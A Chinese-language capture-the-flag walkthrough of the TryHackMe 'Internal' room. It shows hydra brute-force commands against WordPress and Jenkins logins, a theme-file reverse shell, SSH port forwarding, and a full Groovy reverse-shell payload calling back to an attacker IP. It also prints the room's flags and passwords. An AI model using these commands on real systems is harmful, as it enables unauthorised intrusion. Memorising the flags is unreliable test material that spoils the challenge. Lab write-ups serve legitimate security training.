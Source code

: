 # Internal

工作范围

客户要求工程师对提供的虚拟环境进行外部、Web 应用程序和内部评估。客户要求提供有关评估的最少信息，希望从恶意行为者的眼睛进行参与（黑盒渗透测试）。客户端要求您保护两个标志（未提供位置）作为利用证明：

user.txt

root.txt

此外，客户还提供了以下范围津贴：

确保修改主机文件以反映内部文件.thm
此参与中允许使用任何工具或技术
找到并记下发现的所有漏洞
将发现的标志提交到仪表板
只有分配给计算机的 IP 地址在范围内
（角色扮演关闭）

我鼓励您将此挑战作为实际的渗透测试。考虑撰写一份报告，包括执行摘要、漏洞和利用评估以及补救建议，因为这将有利于您准备 eLearnsecurity eCPPT 或作为该领域的渗透测试人员的职业。



注意 - 这个房间可以在没有Metasploit的情况下完成

---

循例 nmap 扫，开了80和22

进web看看，apache默认页面，再用gobuster扫一波目录：

<pre>/blog                <font color="#49AEE6"> (Status: 301)</font> [Size: 313]<font color="#367BF0"> [--&gt; http://10.10.193.174/blog/]</font>
/index.html          <font color="#5EBDAB"> (Status: 200)</font> [Size: 10918]
/javascript          <font color="#49AEE6"> (Status: 301)</font> [Size: 319]<font color="#367BF0"> [--&gt; http://10.10.193.174/javascript/]</font>
/phpmyadmin          <font color="#49AEE6"> (Status: 301)</font> [Size: 319]<font color="#367BF0"> [--&gt; http://10.10.193.174/phpmyadmin/]</font>
/server-status       <font color="#FEA44C"> (Status: 403)</font> [Size: 278]
/wordpress           <font color="#49AEE6"> (Status: 301)</font> [Size: 318]<font color="#367BF0"> [--&gt; http://10.10.193.174/wordpress/]</font>
</pre>

进/blog页面查看到许多域名

    internal.thm

将该域名添加进/etc/hosts

收集到了一些版本信息，但是似乎都没有相关的cve

在/blog下发现了/wp-login.php，是一个wp的登录页面，尝试弱口令，失败

但是，回显信息：

    The password you entered for the username admin is incorrect.

没错，因此我们得知了admin这个账号是存在的，那么我们尝试爆破它

burp用腻了，换种工具玩玩，没错，它就是我们熟悉的hydra

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">hydra</font> <font color="#9755B3">-l</font> admin <font color="#9755B3">-P</font> <u style="text-decoration-style:single">/usr/share/wordlists/rockyou.txt</u> 10.10.193.174 http-post-form <font color="#FEA44C">&apos;/blog/wp-login.php:log=admin&amp;log=^USER^&amp;pwd=^PASS^&amp;wp-submit=Log+In&amp;redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&amp;testcookie=1:Error&apos;</font></pre>

刷了会抖音，爆出来了

<pre>[<font color="#47D4B9"><b>80</b></font>][<font color="#47D4B9"><b>http-post-form</b></font>] host: <font color="#47D4B9"><b>10.10.193.174</b></font>   login: <font color="#47D4B9"><b>admin</b></font>   password: <font color="#47D4B9"><b>my2boys</b></font></pre>

后台中的添加页面处存在图片上传点，但是似乎有白名单，尝试绕过了半天，都失败了。

之前做过几道cms的题，但是他们都是通过修改网站模板的php页面源代码以实现reverse shell的

所以我尝试找找看wordpress有没有类似的地方

确实存在，在后台的：

    Appearance -> Theme Editor

随便找个页面将其修改成reverse shell可用的payload

我们选择修改index.php

然后nc开启监听，然后访问/blog/index.php

成功getshell

<pre>Ncat: Connection from 10.10.193.174.
Ncat: Connection from 10.10.193.174:54124.
bash: cannot set terminal process group (1096): Inappropriate ioctl for device
bash: no job control in this shell
www-data@internal:/var/www/html/wordpress$ whoami
whoami
www-data
</pre>

稍微升级shell

    python3 -c "import pty;pty.spawn('/bin/bash')"

通过uname -a和cat /proc/version，我们得知其内核版本和ubuntu版本，手上捏着好几个适用的CVE，我尽量克制一下，先不用

---

当前的目录下存在wp-config.php，里面包含了数据库的账户和密码，但是数据库也没啥有用的东西

经过一番搜寻，在/opt下有一个wp-save.txt：

    Bill,

    Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

    aubreanna:bubb13guM!@#123

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">ssh</font> aubreanna@10.10.193.174</pre>

成功登入

<pre><font color="#47D4B9"><b>aubreanna@internal</b></font>:<font color="#277FFF"><b>~</b></font>$ cat ./user.txt
THM{int3rna1_fl4g_1}</pre>

并发现：

<pre><font color="#47D4B9"><b>aubreanna@internal</b></font>:<font color="#277FFF"><b>~</b></font>$ cat ./jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080</pre>

使用ss -tlpn确定该服务正在运行于内网中

使用ssh转发流量到目标8080端口：

    ssh aubreanna@10.10.193.174 -L 8888:172.17.0.2:8080

然后在攻击机上使用浏览器打开：

    http://127.0.0.1:8888/


熟悉的登录页面，因为前几道题里面做过关于Jenkins的

弱口令失败，尝试爆破admin

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">hydra</font> <font color="#9755B3">-l</font> admin <font color="#9755B3">-P</font> <u style="text-decoration-style:single">/usr/share/wordlists/rockyou.txt</u> 127.0.0.1 <font color="#9755B3">-s</font> 8888 http-post-form <font color="#FEA44C">&apos;/j_acegi_security_check:j_username=admin&amp;j_password=^PASS^&amp;from=%2F&amp;Submit=Sign+in:Invalid&apos;</font></pre>

<pre>[<font color="#47D4B9"><b>8888</b></font>][<font color="#47D4B9"><b>http-post-form</b></font>] host: <font color="#47D4B9"><b>127.0.0.1</b></font>   login: <font color="#47D4B9"><b>admin</b></font>   password: <font color="#47D4B9"><b>spongebob</b></font></pre>

很好，我们是对的

按照经验，我们在后台的：

    Manage Jenkins -> script console

这里能够执行java代码：

    "whoami".execute().text

成功，现在尝试reverse shell

Groovy payload:

    String host="10.11.17.14";
    int port=8889;
    String cmd="/bin/bash";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

成功getshell

<pre>ls -la /opt
total 12
drwxr-xr-x 1 root root 4096 Aug  3  2020 .
drwxr-xr-x 1 root root 4096 Aug  3  2020 ..
-rw-r--r-- 1 root root  204 Aug  3  2020 note.txt
cat /opt/note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
</pre>

<pre><font color="#47D4B9"><b>aubreanna@internal</b></font>:<font color="#277FFF"><b>~</b></font>$ su root
Password: 
root@internal:/home/aubreanna# cat /root/root.txt
THM{d0ck3r_d3str0y3r}
</pre>

这出题人，这就没意思了，直接给root密码，好歹也出些PE的点
